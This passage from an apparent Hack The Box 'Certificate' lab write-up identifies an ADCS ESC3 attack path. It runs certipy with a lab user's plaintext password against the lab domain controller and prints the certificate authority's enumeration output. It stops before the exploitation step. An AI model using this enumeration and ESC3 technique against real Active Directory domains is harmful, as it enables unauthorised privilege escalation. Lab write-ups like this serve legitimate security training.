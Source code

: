 
## ADCS ESC 3 From lion.sk -> ryan

Viewing BloodHound shows `lion.sk` is a member of three groups — the interesting one is **Domain CRA Managers**.

### Enumeration

<img src="assets/HTB/Certificate/image10.png" alt="Error loading image">


We ran `certipy find` as `lion.sk` and discovered a user-enrollable template (`Delegated-CRA`) with the **Certificate Request Agent** EKU, flagged as **ESC3** — indicating an ADCS ESC3 attack path is possible.



```
certipy find -u lion.sk -p '!QAZ2wsx' -dc-ip 10.10.11.71 -stdout  -vulnerable                             
```
```
  0
    CA Name                             : Certificate-LTD-CA
    DNS Name                            : DC01.certificate.htb
    Certificate Subject                 : CN=Certificate-LTD-CA, DC=certificate, DC=htb
    Certificate Serial Number           : 75B2F4BBF31F108945147B466131BDCA
    Certificate Validity Start          : 2024-11-03 22:55:09+00:00
    Certificate Validity End            : 2034-11-03 23:05:09+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : CERTIFICATE.HTB\Administrators
      Access Rights
        ManageCa                        : CERTIFICATE.HTB\Administrators
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        ManageCertificates              : CERTIFICATE.HTB\Administrators
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
```